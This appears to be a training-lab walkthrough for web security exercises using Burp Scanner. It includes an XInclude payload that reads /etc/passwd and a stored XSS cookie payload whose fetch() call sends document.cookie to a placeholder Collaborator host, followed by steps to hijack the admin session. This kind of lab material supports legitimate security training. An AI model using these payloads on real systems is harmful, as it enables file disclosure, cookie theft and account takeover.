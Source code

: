 Lab: Discovering vulnerabilities quickly with targeted scanning

*targeted scanning*

payload:
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1

Lab: Scanning non-standard data structures

Identify the vulnerability

    Log in to your account with the provided credentials.
    In Burp, go to the Proxy > HTTP history tab.
    Find the GET /my-account?id=wiener request, which contains your new authenticated session cookie.
    Study the session cookie and notice that it contains your username in cleartext, followed by a token of some kind. These are separated by a colon, which suggests that the application may treat the cookie value as two distinct inputs.
    Select the first part of the session cookie, the cleartext wiener.
    Right-click and select Scan selected insertion point, then click OK.
    Go to the Dashboard and wait for the scan to complete.

Approximately one minute after the scan starts, notice that Burp Scanner reports a Cross-site scripting (stored) issue. It has detected this by triggering an interaction with the Burp Collaborator server.
Note

The delay in reporting the issue is due to the polling interval. By default, Burp polls the Burp Collaborator server for new interactions every minute.

Steal the admin user's cookies

    In the Dashboard, select the identified issue.
    In the lower panel, open the Request tab. This contains the request that Burp Scanner used to identify the issue.
    Send the request to Burp Repeater.
    Go to the Collaborator tab and click Copy to clipboard. A new Burp Collaborator payload is saved to your clipboard.
    Go to the Repeater tab and use the Inspector to view the cookie in its decoded form.

    Using the Collaborator payload you just copied, replace the proof-of-concept that Burp Scanner used with an exploit that exfiltrates the victim's cookies. For example:
    '"><svg/onload=fetch(`//YOUR-COLLABORATOR-PAYLOAD/${encodeURIComponent(document.cookie)}`)>:YOUR-SESSION-ID

    Note that you need to preserve the second part of the cookie containing your session ID.
    Click Apply changes, and then click Send.
    Go back to the Collaborator tab. After approximately one minute, click Poll now. Notice that the Collaborator server has received new DNS and HTTP interactions.
    Select one of the HTTP interactions.
    On the Request to Collaborator tab, notice that the path of the request contains the admin user's cookies.

Use the admin user's cookie to access the admin panel

    Copy the admin user's session cookie.
    Go to Burp's browser and open the DevTools menu.
    Go to the Application tab and select Cookies.
    Replace your session cookie with the admin user's session cookie, and refresh the page.
    Access the admin panel and delete carlos to solve the lab.

